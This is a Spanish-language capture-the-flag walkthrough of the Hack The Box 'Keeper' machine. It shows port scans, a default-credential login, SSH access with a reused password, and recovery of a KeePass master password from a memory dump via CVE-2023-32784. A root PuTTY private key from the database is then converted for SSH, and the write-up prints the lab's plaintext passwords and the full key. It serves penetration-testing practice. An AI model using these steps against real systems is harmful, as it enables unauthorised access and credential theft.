


# Resolución maquina keeper

**Autor:** PepeMaquina  
**Fecha:** 17 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Web, KeePass, Putty

---

## Imagen de la Máquina

*Imagen: keeper.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.10.11.227 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.11.227 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Enumeración dentro de la pagina web
Al realizar la enumeración de la página web. sepuede ver un inicio de sesion y una version de la aplicacion web empleada.

Revisando en internet, se tiene unas credenciales por defecto que siempre se deberia de probar (root:password)
Probando las credenciales, se ve que son efectivas y otorga acceso a la aplicacion web, al revisar la página web se pude ver un usuario y una nota asociada a el con una contraseña por defecto para los nuevos usuarios.

Por lo que vendría bien probar estas credenciales para el acceso por ssh.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Probando las credenciales encontradas para obtener acceso al servidor se puede ver que son efectivas, de esta manera ya se puede tener acceso al user flag.
~~~bash
ssh lnorgaard@10.10.11.227                    
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios, se puede ver que en la carpeta del usuario existe un comprimido, por lo que posiblemente sea la manera de escalar la maquina, a lo que pasando el archivo a la maquina atacante y revisando su contenido, se pueden ver dos archivos interesantes.
~~~bash
ls    
KeePassDumpFull.dmp  passcodes.kdbx
~~~
Normalmente lo que haría seria sacar el hash de la base de datos e intentar crackearla por fuerza bruta, pero al ver que existe un .dmp es casi seguro que servida de ayuda para sacar la contraseña de la base de datos de keepass.
Como seguramente es un dumpeado, se me ocurren cosas como hacer ingenieria inversa, talvez utilizar volatility o alguna otra herramienta parecida.

Pero sin adelantarse, al revisar en internet buscando los dos archivos para obtener alguna guia, encontre un CVE-2023-32784, donde explica que en versiones de 2.00 a 2.54 cuando se realiza un dumpeado de keepass, esta tambien guarda rastros de contraseña guardadas en memoria.

Al realizar un strings al dmp pude ver la version de keepass y se ve que es vulnerable.
~~~
string keePassDumpFull.dmp | grep "Version" -A 5
<SNIP>
LIST
--
C:\Program Files\KeePass Password Safe 2\KeePass.exe
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\Lise.Norgaard\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
--
                                <assemblyIdentity name="KeePass"
                                        publicKeyToken="fed2ed7716aecf5c"
                                        culture="neutral" />
                                <bindingRedirect oldVersion="2.0.9.0-2.53.1.0"
                                        newVersion="2.53.1.20815" />
                        </dependentAssembly>
--
                                <assemblyIdentity name="KeePass"
                                        publicKeyToken="fed2ed7716aecf5c"
                                        culture="neutral" />
                                <bindingRedirect oldVersion="2.0.9.0-2.53.1.0"
                                        newVersion="2.53.1.20815" />
                        </dependentAssembly>
--
"C:\Program Files\KeePass Password Safe 2\KeePass.exe" 
Q8?(

<SNIP>
~~~
Por lo que se busca un script en github para realizar la explotacion del CVE encontrando https://github.com/vdohney/keepass-password-dumper
~~~bash
python3 keepass_dump.py -f ../KeePassDumpFull.dmp --skip --debug 
[*] Skipping bytes
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 12358616 | Found: ●●d
[*] 12359636 | Found: ●●d
[*] 12361106 | Found: ●●●g
[*] 12362154 | Found: ●●●g
[*] 12363716 | Found: ●●●●r
[*] 12364772 | Found: ●●●●r
[*] 12381216 | Found: ●●●●●●d
[*] 12382320 | Found: ●●●●●●d
[*] 12384154 | Found: ●●●●●●● 
[*] 12385298 | Found: ●●●●●●● 
[*] 12387028 | Found: ●●●●●●●●m
[*] 12388180 | Found: ●●●●●●●●m
[*] 12389814 | Found: ●●●●●●●●●e
[*] 12390826 | Found: ●●●●●●e
[*] 12392688 | Found: ●●●●●●●●●●d
[*] 12393848 | Found: ●●●●●●●●●●d
[*] 12395850 | Found: ●●●●●●●●●●● 
[*] 12396878 | Found: ●●●●●●●●●●● 
[*] 12398908 | Found: ●●●●●●●●●●●●f
[*] 12399944 | Found: ●●●●●●●●●●●●f
[*] 12402046 | Found: ●●●●●●●●●●●●●l
[*] 12403090 | Found: ●●●●●●●●●●●●●l
[*] 12420202 | Found: ●●●●●●●●●●●●●●●d
[*] 12421266 | Found: ●●●●●●●●●●●●●●●d
[*] 12423388 | Found: ●●●●●●●●●●●●●●●●e
[*] 12424460 | Found: ●●●●●●●●●●●●●●●●e
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  <{d, e}>
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgr<{d, e}> med flde
~~~
Al correr el script entrega este resultado, parece que la contraseña no esta del todo completa y le faltan algunas letras y mas desconocidas.
Al buscar mas scripts no se pudo encontrar nada mas util, por lo que despues de horas pensando, se me ocurrio buscar el resultado en internet para ver que podria ser.

Parece que las palabras que queremos encontrar es una especie de tarta de frutas pero escrito en otro idioma, realmente me siento tonto y que esto no podria ser mas completamente innecesario.
Al colocar esta receta en el idioma original se puede abrir la base de datos keepass (rødgrød med fløde)
~~~bash
kpcli                                   

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx 
Provide the master password: *************************
kpcli:/> ls
=== Groups ===
passcodes/
~~~
Revisando y enumerando el contenido de la base de datos, se encontró la contraseña inicial que tenemos para el usuario "lnorgaard"
~~~
kpcli:/> ls passcodes/
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/> ls passcodes/Network/
=== Entries ===
2. keeper.htb (Ticketing Server)                                          
3. Ticketing System                                                       
kpcli:/passcodes/Network> show Ticketing\ System 

 Path: /passcodes/Network/
Title: Ticketing System
Uname: lnorgaard
 Pass: Welcome2023!
  URL: 
Notes: http://tickets.keeper.htb
~~~
Y revisando el archivo heeper.htb se puede ver que existen credenciales para el usuario root.
~~~
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

kpcli:/passcodes/Network> exit
Please consider supporting kpcli development by sponsoring its author:
https://github.com/sponsors/hightowe
~~~
Entonces, primero se probo la contraseña, pero no resulto efectiva, por lo que se prueban las credenciales ssh, pero existe un problema, estas claves ssh estan puestas para PUTTY, por lo que se debe cambiar el formato para que la acepte ssh normal.
Primero se copia y pega las claves borrando los espacios y tabulaciones innecesarias.
~~~bash
cat ssh_putty          
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
~~~
Luego utilizando puttygen se la cambia al formato permitido.
~~~bash
puttygen ssh_putty -O private-openssh -o ssh_keeper
~~~
Finalmente ya se puede ingresar como root.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag.
~~~bash
ssh -i ssh_keeper root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# cd /root/
root@keeper:~# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

